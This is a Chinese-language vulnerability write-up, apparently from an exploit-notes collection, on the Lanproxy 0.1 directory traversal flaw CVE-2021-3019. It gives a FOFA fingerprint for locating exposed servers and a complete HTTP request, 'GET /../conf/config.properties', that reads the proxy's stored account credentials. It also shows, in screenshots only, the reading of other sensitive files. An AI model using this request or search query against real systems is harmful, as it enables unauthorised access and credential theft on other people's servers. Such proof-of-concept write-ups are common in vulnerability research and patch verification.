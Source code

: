 # Lanproxy 目录遍历漏洞 CVE-2021-3019

## 漏洞描述

Lanproxy是一个将局域网个人电脑、服务器代理到公网的内网穿透工具，支持tcp流量转发，可支持任何tcp上层协议（访问内网网站、本地支付接口调试、ssh访问、远程桌面等等）本次Lanproxy 路径遍历漏洞 (CVE-2021-3019)通过../绕过读取任意文件。该漏洞允许目录遍历读取/../conf/config.properties来获取到内部网连接的凭据。

## 漏洞影响

> [!NOTE]
>
> Lanproxy 0.1

# FOFA

> [!NOTE]
>
> header= "Server: LPS-0.1"

## 环境搭建

https://github.com/ffay/lanproxy/

## 漏洞复现

打开登录页面如下

![](image/lanproxy-1.png)

使用Burp抓包发送如下请求

```html
GET /../conf/config.properties HTTP/1.1
Host: xxx.xxx.xxx.xxx
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```

![](image/lanproxy-2.png)

成功在配置文件中读取 账号密码

![](image/lanproxy-3.png)

试着读取其他敏感文件

![](image/lanproxy-4.png)

![](image/lanproxy-5.png)